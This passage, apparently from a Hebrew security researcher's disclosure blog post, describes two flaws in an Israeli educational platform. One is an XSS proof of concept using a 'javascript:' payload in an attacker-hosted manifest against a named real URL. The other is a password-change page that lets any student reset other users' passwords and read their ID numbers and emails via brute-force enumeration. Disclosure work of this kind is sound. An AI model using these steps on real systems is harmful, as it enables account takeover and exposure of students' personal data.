 #### ניצול המנגון:
מכיוון שאנו יודעים כי `location.href` מאפשר לנו לטעון כתובת המכילות את הקידמות `javascript:` המאפשרות הרצת קוד על הדף הנוכחי  
ניתן להרים שרת ובו קובץ המכיל את התוכן הבא:

```json
{
    "exit": "javascript:alert(document.cookie)"
}
```

לאחר מכן נוכל לפנות אל הכתובת הבאה ולקבל הרצת קוד

```
https://mybag.ofakim.cet.ac.il/content/player.aspx?manifest=https://{attacker_url}/file.json
```

<iframe width="560" height="500" src="https://www.youtube.com/embed/B9UGuw-IEGc" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
{% endcomment %}

### שינוי סיסמה למשתמשים שונים וצפייה בפרטיהם:
* הבעיה ניתנת לניצול ללא תלות במשתמש האדמין (כל משתמש אשר מחובר למערכת יכול לבצע תהליך זה)

במהלך החיפוש באתר הגעתי לכתובת הבאה:

```
https://accounts.cet.ac.il/ChangeUserPassword.aspx
```
הבחנתי בהתנהגות מוזרה, משתמש ללא הרשאות (תלמיד אחר במערכת) יכול לעדכן למשתמשים מסוימים את סיסמתם, בנוסף ברגע שמזינים מזהה משתמש לתיבת החיפוש, מוחזרים אל הדפדפן פרטים על המשתמש:
- שם מלא
- תעודת זהות
- חשבונות מייל משוייכים

ניצול בעיה זו יכול להתממש בשתי דרכים:
1. כניסה למשתמשים ששמות המשתמש שלהם ידועים
2. ביצוע אנומרצית משתמשים (פשוט `bruteforce` עד שנגיע ל מזהה משתמש קיים)

![]({{ site.baseurl }}/assets/ofek-images/change-pass.png)